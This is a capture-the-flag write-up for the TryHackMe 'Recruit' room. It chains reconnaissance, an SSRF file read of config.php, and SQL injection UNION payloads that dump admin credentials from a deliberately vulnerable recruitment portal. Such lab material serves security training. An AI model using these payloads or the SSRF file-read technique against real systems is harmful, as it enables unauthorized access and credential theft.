








# TryHackMe – Recruit CTF Room Write-up
https://tryhackme.com/room/recruitwebchallenge

> End-to-end exploitation of a vulnerable recruitment portal:
> Main Solution Plan: SSRF -> LFI -> SQL injection -> Admin takeover

---

## Overview

This room simulates a real-world web application assessment where multiple vulnerabilities must be chained together to gain administrative access, 
gaining access to the 2 flags required for the room completion.



---

### STEP 1: Nmap Scan

```bash
nmap -sC -sV TARGET-IP
```

**Open Ports:**

* `22` → SSH
* `53` → DNS
* `80` → HTTP

*Screenshot: Nmap results*





---

### STEP 2: Directory Bruteforce

```bash
gobuster dir -u http://TARGET-IP -w /root/Tools/wordlists/dirb/common.txt
```

**Interesting endpoints to consider:**

* `/mail`
* `/api`
* `/phpmyadmin`
* `/assets`

*Screenshot: Gobuster output*





---

## STEP 3: Obtain HR Username

Navigating to:

```
http://TARGET-IP/mail/mail.log
```

Revealed internal communication.

### Key Findings:

* Username: `hr`
* Credentials stored in: `config.php`
* Admin credentials stored in database

*Screenshot: mail.log contents*





---

## STEP 4: SSRF (Server-Side Request Forgery) -> Local File Inclusion

### API Discovery

From `/api`, found endpoint:

```
/file.php?cv=<URL>
```

This allows fetching remote resources -> **SSRF vulnerability**

---

### STEP 5: Exploitation

Attempted local file access:

```bash
http://TARGET-IP/file.php?cv=file:///var/www/html/config.php
```

 Allowed us to successfully retrieve the configuration file.

*Screenshot: config.php via SSRF*





---

### STEP 6: Extracted Credentials

```php
$HR_PASSWORD = (password will be here in config.php);
```

---

## STEP 7: HR Login

Logged into the web app using:

* **Username:** `hr`
* **Password:** `(found password)`

*Screenshot: HR dashboard + flag*


---

## STEP 8: SQL Injection (Search Feature)

###  Vulnerable Parameter

```
?search=<input>
```

Testing with:

```
'
```

Produced the following SQL error:

```
You have an error in your SQL syntax near '%''
```

*Screenshot: SQL error*





---

### Root Cause

Backend query was likely:

```sql
SELECT * FROM candidates WHERE name LIKE '%input%'
```

---

## STEP 9: SQL Injection Exploitation

### Confirm Injection

```sql
%' OR 1=1-- -
```

---

### Column Enumeration

```sql
%' UNION SELECT 1,2,3,4-- -
```

→ 4 columns confirmed

---

### Extract Table Names

```sql
%' UNION SELECT 1,table_name,3,4 
FROM information_schema.tables 
WHERE table_schema=database()-- -
```

### Dump Credentials

```sql
%' UNION SELECT 1,username,password,4 FROM users-- -
```

Extracted:

* **Username:** `admin`
* **Password:** `(password is in the Position field)`

*Screenshot: credentials dump*





---

## STEP 10: Admin Access

Logged in with extracted credentials.

Successfully obtained admin flag:

*Screenshot: admin dashboard + flag*





---


## Security Issues Identified

| Vulnerability          | Impact                       |
| ---------------------- | ---------------------------- |
| Information Disclosure | Leaked credentials location  |
| SSRF                   | Access to internal resources |
| Local File Inclusion   | Exposure of sensitive files  |
| Hardcoded Credentials  | Weak security practice       |
| SQL Injection          | Full database compromise     |
| Broken Access Control  | Privilege escalation         |

---

## Key Notes

* This challenge demonstrates **vulnerability chaining**, not just single exploits.
* SSRF is often a **pivot**, not the end goal.
* SQL injection remains one of the most critical web vulnerabilities when input is not sanitized.

---

Write-up by: *Pedro-Oub*
Follow me on https://tryhackme.com/p/PedroOub
---
